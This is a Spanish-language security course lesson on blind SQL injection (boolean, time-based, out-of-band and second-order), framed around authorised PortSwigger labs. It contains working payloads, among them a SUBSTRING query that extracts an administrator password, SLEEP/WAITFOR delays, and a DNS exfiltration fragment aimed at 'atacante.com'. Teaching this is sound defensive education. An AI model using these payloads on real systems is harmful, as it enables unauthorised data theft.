

# Clase 092 — Inyección SQL avanzada y ciega (blind)

> Parte: **4 — Seguridad de aplicaciones web** · Fuente: *The Web Application Hacker's Handbook (Stuttard & Pinto)*
> ⏱️ Duración estimada: **130 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Explotar SQLi cuando **no hay salida directa de datos**: inyección ciega booleana, basada en tiempo y out-of-band. Estas técnicas permiten extraer información incluso cuando la aplicación no muestra errores ni resultados, algo muy común en aplicaciones reales bien configuradas.

> ⚠️ **Ética**: exclusivamente en DVWA, Juice Shop, PortSwigger labs u objetivos con autorización expresa.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Distinguir** blind booleana, temporal y out-of-band.
2. **Extraer** datos bit a bit con condiciones booleanas.
3. **Confirmar** inyección con retardos temporales (`SLEEP`, `WAITFOR`).
4. **Aplicar** exfiltración out-of-band vía DNS/HTTP cuando es posible.
5. **Estimar** el coste y automatizar la extracción.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|-----------------|
| 1 | Blind booleana | Extracción sin ver datos |
| 2 | Funciones SUBSTRING/ASCII | Leer carácter a carácter |
| 3 | Blind temporal | Cuando ni la lógica cambia |
| 4 | Out-of-band (DNS/HTTP) | Exfiltración por canal alterno |
| 5 | Segundo orden (second-order) | El payload se ejecuta después |
| 6 | Automatización con scripts | La extracción manual es lenta |
| 7 | Diferencias por motor | SLEEP vs. WAITFOR vs. pg_sleep |

## 🧠 Explicación en profundidad

### Cuando la aplicación no te enseña nada

En muchas aplicaciones la inyección funciona pero **no se ven los resultados**: no hay errores,
la consulta no se refleja en la página, solo cambia el comportamiento de forma sutil. Es la
**inyección ciega** (*blind SQLi*), y su idea central es que, aunque no puedas *leer* la base de
datos directamente, sí puedes **hacerle preguntas de sí/no** y deducir los datos bit a bit por
las respuestas. Es más lenta que la UNION de la clase anterior, pero igual de potente: al final
se extrae exactamente la misma información, solo que interrogando en lugar de leyendo.



### Booleana y temporal: dos formas de leer un sí o un no

La **inyección ciega booleana** aprovecha cualquier diferencia observable entre una condición
verdadera y una falsa. Se inyecta una condición sobre el dato buscado —por ejemplo,
`AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'`— y se observa si la página
responde como en el caso "verdadero" o en el "falso". Repitiendo con cada letra del alfabeto y
cada posición, se reconstruye la contraseña carácter a carácter. Las funciones clave son las de
**subcadena** (`SUBSTRING`, `SUBSTR`) para aislar un carácter y `ASCII`/`ORD` para compararlo
por su valor numérico, lo que permite una **búsqueda binaria** (`> 'm'`) mucho más rápida que
probar letra por letra.

La **inyección ciega temporal** se usa cuando **no hay ninguna diferencia visible** en la
respuesta. El truco es hacer que la propia consulta **tarde**: `IF(condición, SLEEP(5), 0)`
—o `WAITFOR DELAY` en SQL Server, `pg_sleep` en PostgreSQL—. Si la página tarda cinco segundos
de más, la condición era verdadera; si responde al instante, falsa. Es el canal más
lento y el más ruidoso, pero funciona cuando todo lo demás falla, porque el **tiempo** es una
señal que siempre está disponible.

### Out-of-band y segundo orden: los canales que no pasan por la respuesta

Cuando ni el contenido ni el tiempo sirven, queda el canal **out-of-band (OOB)**: forzar a la
base de datos a **iniciar una conexión hacia fuera** —una resolución DNS o una petición HTTP a
un dominio que el atacante controla—, incluyendo el dato robado en el propio nombre consultado
(`(SELECT password...)||'.atacante.com'`). El atacante lee el dato en los logs de su servidor
DNS. Es rapidísimo comparado con el blind bit a bit y atraviesa entornos muy restringidos,
aunque depende de que el motor permita esas funciones de red (más común en Oracle y SQL Server).

La **inyección de segundo orden** (*second-order*) es la más traicionera y la que los escáneres
suelen pasar por alto. El payload se **almacena** en un punto (por ejemplo, al registrarse con un
nombre de usuario malicioso) y **no se ejecuta ahí**, sino **después**, cuando otra parte de la
aplicación usa ese dato guardado en una consulta sin sanear (al mostrar el perfil, al generar un
informe). Como la inyección y su ejecución ocurren en momentos y sitios distintos, solo se
encuentra entendiendo el **flujo de datos** de la aplicación, no probando cada campo de forma
aislada. Toda esta clase, más lenta y precisa que la anterior, es la que las herramientas
automatizan —motivo de la clase 093—, y toda ella se cierra con la misma remediación:
consultas parametrizadas, que hacen imposible tanto la inyección directa como la ciega.

## 📖 Definiciones y características

- **Blind SQLi**: la respuesta no incluye datos, solo cambia de forma observable. Característica: se infiere info por diferencias sutiles.
- **Booleana**: se plantean condiciones verdadero/falso. Característica: la página cambia según el resultado.
- **Basada en tiempo**: se induce un retardo condicional. Característica: útil cuando no hay ninguna diferencia visible.
- **Out-of-band (OOB)**: los datos salen por DNS/HTTP a un servidor del atacante. Característica: requiere que el motor pueda iniciar conexiones.
- **Second-order**: el input se almacena y se ejecuta en otra operación posterior. Característica: difícil de detectar en el punto de entrada.
- **Oráculo booleano**: cualquier señal binaria fiable (código, longitud, contenido). Característica: base de la extracción bit a bit.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Inyección ciega (blind) | La inyección funciona pero no se ven los datos |
| Booleana | Deducir datos por la diferencia entre condición verdadera y falsa |
| SUBSTRING / SUBSTR | Aísla un carácter del dato buscado |
| ASCII / ORD | Compara un carácter por su valor numérico |
| Búsqueda binaria | Acota el carácter con comparaciones `>`/`<` |
| Inyección temporal | Deducir por el tiempo de respuesta (`SLEEP`, `WAITFOR`) |
| SLEEP / pg_sleep / WAITFOR | Funciones de retardo por motor |
| Out-of-band (OOB) | Forzar a la BD a conectar fuera y exfiltrar por DNS/HTTP |
| Canal OOB | Los logs del servidor del atacante reciben el dato |
| Segundo orden | El payload se guarda y se ejecuta después, en otro sitio |
| Flujo de datos | Rastro del dato guardado hasta donde se usa sin sanear |
| Extracción carácter a carácter | Reconstruir el dato preguntando bit a bit |
| Dependencia del motor | Las funciones OOB y de tiempo varían por base de datos |
| Remediación | Consultas parametrizadas, igual que en la inyección directa |

## 🧰 Herramientas y preparación

- **PortSwigger Web Security Academy** (labs de blind SQLi, gratis con cuenta).
- **Burp Intruder/Repeater** para automatizar condiciones.
- **Burp Collaborator** o un servidor DNS propio para OOB.

## 🧪 Laboratorio guiado

> ⚠️ Solo en los labs autorizados.

1. Elige el lab "Blind SQL injection with conditional responses" de PortSwigger.
2. Identifica el oráculo: un mensaje que aparece solo cuando la condición es verdadera.
3. Confirma inyección con `' AND 1=1-- -` (aparece) vs. `' AND 1=2-- -` (no aparece).
4. Extrae un carácter con:

```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'-- -
```

5. Itera posición y valor (con Intruder, cluster bomb) para reconstruir la contraseña.
6. Practica el lab de **blind temporal**: `'; IF (condición) WAITFOR DELAY '0:0:5'-- -` (MSSQL) o `' AND SLEEP(5)-- -` (MySQL).
7. En el lab OOB, provoca una interacción DNS hacia Collaborator para exfiltrar datos.

## ✍️ Ejercicios

1. Reconstruye una contraseña de 20 caracteres con blind booleana y mide cuántas peticiones costó.
2. Optimiza la extracción usando búsqueda binaria (`>` en vez de `=`).
3. Escribe el payload temporal equivalente para MySQL, MSSQL y PostgreSQL.
4. Explica por qué la blind temporal es la más ruidosa y lenta.
5. Diseña un oráculo booleano a partir del tamaño de la respuesta.
6. Describe un escenario de second-order SQLi con un caso de registro de usuario.

## 📝 Reto verificable

Extrae la contraseña completa del usuario `administrator` en un lab de blind SQLi de PortSwigger usando **solo** condiciones booleanas automatizadas.
**Criterio de aceptación**: entregas la contraseña recuperada, la configuración de Intruder (posiciones y payload set) y el número de peticiones necesarias, resolviendo el lab.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|-------------------|------------------------|
| El oráculo no es fiable | Elige una señal más estable (código o longitud) |
| Extracción lentísima | Usa búsqueda binaria y concurrencia |
| SLEEP no funciona | Motor distinto; usa la función correcta |
| OOB sin interacciones | El motor no permite conexiones salientes |
| Resultados intermitentes | Rate limiting; añade delays y reintentos |

## ❓ Preguntas frecuentes

**❓ ¿Cuándo uso temporal en vez de booleana?**
Cuando no hay ninguna diferencia observable en la respuesta salvo el tiempo. Es más lenta, úsala como último recurso.

**❓ ¿Qué es exactamente second-order?**
El input malicioso se guarda sin ejecutarse y detona en otra consulta posterior (por ejemplo, al mostrar el perfil).

**❓ ¿Por qué la búsqueda binaria acelera tanto?**
Reduce las pruebas por carácter de ~128 a ~7 comparaciones (log2), un ahorro enorme.

## 🔗 Referencias

- Stuttard & Pinto, *The Web Application Hacker's Handbook*, cap. 9.
- PortSwigger Blind SQL injection: <https://portswigger.net/web-security/sql-injection/blind>
- OWASP Testing for SQL Injection (WSTG).

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-092-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-092-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 091 — Inyección SQL: fundamentos](../091-inyeccion-sql-fundamentos/README.md)

## ➡️ Siguiente clase

[Clase 093 — SQLMap](../093-sqlmap/README.md)
